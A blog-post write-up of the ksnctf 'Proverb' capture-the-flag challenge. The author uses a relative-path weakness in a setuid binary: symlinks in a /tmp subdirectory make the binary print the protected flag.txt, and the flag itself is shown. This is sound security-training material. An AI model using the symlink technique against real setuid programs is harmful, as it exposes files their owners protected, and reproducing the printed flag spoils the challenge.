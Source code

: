 ```yaml
---
layout : post
title : ksnctf Proverb write-up
comments : true
---
```


This article is a write-up for [Proverb](http://ksnctf.sweetduet.info/problem/13) at ksnctf.  

Using given information, let's connect to the server `ssh -p 10022 q13@ctfq.sweetduet.info`.  

```
taishi@sirius:~
⇒  ssh -p 10022 q13@ctfq.sweetduet.info
q13@ctfq.sweetduet.info's password: 
Last login: Tue Oct 20 20:12:26 2015 from 10.0.2.2
[q13@localhost ~]$ ls -al
total 48
drwxr-xr-x   2 root root  4096 Jun  1  2012 .
drwxr-xr-x. 17 root root  4096 Oct  6  2014 ..
-rw-r--r--   1 root root    18 May 11  2012 .bash_logout
-rw-r--r--   1 root root   176 May 11  2012 .bash_profile
-rw-r--r--   1 root root   124 May 11  2012 .bashrc
-r--------  19 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x  17 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--   2 root root   755 Jun  1  2012 proverb.txt
-r--r--r--   1 root root   151 Jun  1  2012 readme.txt
[q13@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q13@localhost ~]$ file proverb
proverb: setuid executable, regular file, no read permission
[q13@localhost ~]$ ./proverb 
Take heed of the snake in the grass.
[q13@localhost ~]$ ./proverb
Misfortunes never come singly.
[q13@localhost ~]$ ./proverb
Spare the rod and spoil the child.
[q13@localhost ~]$ ./proverb
Nothing ventured, nothing gained.
[q13@localhost ~]$ ./proverb
Take heed of the snake in the grass.
```

Inside, there are three files: `flag.txt` (probably contains FLAG), `proverb` (executable with SUID), and `proverb.txt`. It seems that `proverb` randomly chooses and prints out a line of strings inside `proverb.txt`.  
Since you can't analyze `proverb` using GDB (no read access), think about using `/tmp` directory, as it was written in readme.txt.  


However, although you have a write-permission, you don't have read-permission to `/tmp` directory. Weird. Started suspicious that there might be some files inside `/tmp` that leads you to capture the flag.  


```
[q13@localhost ~]$ ls /tmp
ls: cannot open directory /tmp: Permission denied
```

Now, let's start a guessing game.  

```
[q13@localhost ~]$ cat /tmp/proverb.txt
Please make your own subdirectory.
```

Here you find `proverb.txt`, saying that you should make a subdirectory. Make sense!. Let's create a subdirectory inside /tmp, then make a symbolic link of `~/proverb` and `~/flag.txt` and rename `flag.txt` to `proverb.txt`.  

```
[q13@localhost ~]$ mkdir /tmp/my_dir
[q13@localhost ~]$ cd /tmp/my_dir
[q13@localhost my_dir]$ ln -s ~/proverb .
[q13@localhost my_dir]$ ln -s ~/flag.txt proverb.txt
[q13@localhost my_dir]$ ./proverb
FLAG_XoK9PzskYedj/T&B
```

Flag is: __FLAG_XoK9PzskYedj/T&B__


